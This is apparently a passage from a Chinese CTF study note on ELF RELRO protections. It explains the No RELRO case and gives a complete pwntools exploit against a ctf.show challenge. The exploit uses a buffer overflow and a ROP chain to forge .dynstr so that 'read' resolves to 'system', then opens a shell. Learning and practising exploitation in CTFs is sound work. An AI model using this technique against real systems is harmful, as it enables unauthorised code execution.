 ## NO-**RELRO**

**No RELRO**:

- No RELRO 时，没有对 ELF 文件的任何部分应用 RELRO 保护。
- **`.got`**、**`.dynamic`**等 sections 是可写的，这意味着攻击者如果能够找到程序的漏洞，可能会篡改这些 section 中的内容，执行任意代码。

```python
from pwn import *
from LibcSearcher import *
#sh = process("./pwn")

sh = remote("pwn.challenge.ctf.show",'28216')
elf = ELF("./pwn")
context.log_level='debug'
write_plt = elf.plt['write']
write_got = elf.got['write']

read_plt = elf.plt['read']
read_got = elf.got['read']

main_addr = elf.symbols['main']
leave_ret = 0x08048445
dynstr = elf.get_section_by_name('.dynstr').data()
dynstr = dynstr.replace(b"read",b"system")

target_addr = 0x8049000 +0x400
strtab_addr = 0x08049804+0x4
ppp_ret = 0x08048629

sh.recvuntil("wPWN!\n")
payload1 = b'a'*(0x6c+4)+p32(read_plt)+p32(ppp_ret)+p32(0)+p32(strtab_addr)+p32(4)

payload1 += p32(read_plt)+p32(ppp_ret)+p32(0)+p32(target_addr)+p32(len(dynstr))

payload1 += p32(read_plt) + p32(ppp_ret)+p32(0)+p32(target_addr+0x100)+p32(len("/bin/sh\x00"))

payload1 += p32(0x08048376)+ p32(0xdeadbeef)+p32(target_addr+0x100)

sh.send(payload1)
sh.send(p32(target_addr))
sh.send(dynstr)
sh.send(b"/bin/sh\x00")

sh.interactive()
```

收获：

- 对于这种没有开启RELRO服务的情况（一般不会发生），通过 `elf.get_section_by_name`来进行section的获取整个dynamic，然后找一个空闲的内存空间进行伪造
- ROP链的获取，主要看参数以及将返回地址变为`pop ret`指令，pop数目和参数数目保持一直一致

## Partial-RELRO
